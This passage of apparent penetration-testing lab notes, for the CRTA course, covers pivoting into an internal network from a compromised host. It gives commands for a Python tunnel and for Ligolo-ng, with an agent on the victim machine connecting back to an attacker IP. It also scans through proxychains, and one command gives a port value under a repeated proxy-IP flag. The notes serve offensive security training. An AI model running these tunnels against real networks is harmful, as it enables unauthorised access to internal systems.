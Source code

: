 ```bash
On attacker Machine, run:
- python2 server.py --server-ip <Ip address in Tun0 interface> --server-port 9980 
--proxy-ip 127.0.0.1 --proxy-ip 8090.

On Victim's machine, run:
- python2 client.py --server-ip <Attacker's IP address in Tun0 interface> --server-port 9980

We can test if it's reachable by running a simple nmap scan using
"proxychains nmap 192.168.98.30".

METHOD 3 Ligolo-ng
#Attacker Machine, download proxy & agent :
#Proxy
wget
https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_pr
oxy_0.4.3_Linux_64bit.tar.gz

#Agent
wget
https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_ag
ent_0.4.3_Linux_64bit.tar.gz

**Setup the ligolo-ng proxy in the attacker machine & ligolo-ng in the victim
machine.**

# Attacker Machine
sudo ip tuntap add user <your_user> mode tun ligolo - used to create a 
TUN (network tunnel) interface for Ligolo-ng’s agent to forward traffic through.

Delete the 192.168.98.0/24 IP Range from the tun0 interface:
sudo ip route del 192.168.98.0/24 dev tun0

#Up the ligolo interface :
sudo ip link set ligolo up (Don't worry if it still shows DOWN after turning it on,
it's waiting for a connection.

#Add 192.168.98.0/24 IP range to the ligolo interface :
sudo ip route add 192.168.98.0/24 dev ligolo

Confirm the route on your attacker machine. The internal IP range is now
added in the route.

Start the proxy on the attacker server
./proxy -selfcert -laddr 0.0.0.0:443

```

https://github.com/Fernandez99fc/CRTA/blob/main/Images/Screenshot_(238).png

```jsx
Transfer the agent on the victim machine & start the connection
#Replace this with your attacker IP address.
./agent -connect 10.10.200.173:443 -ignore-cert
```

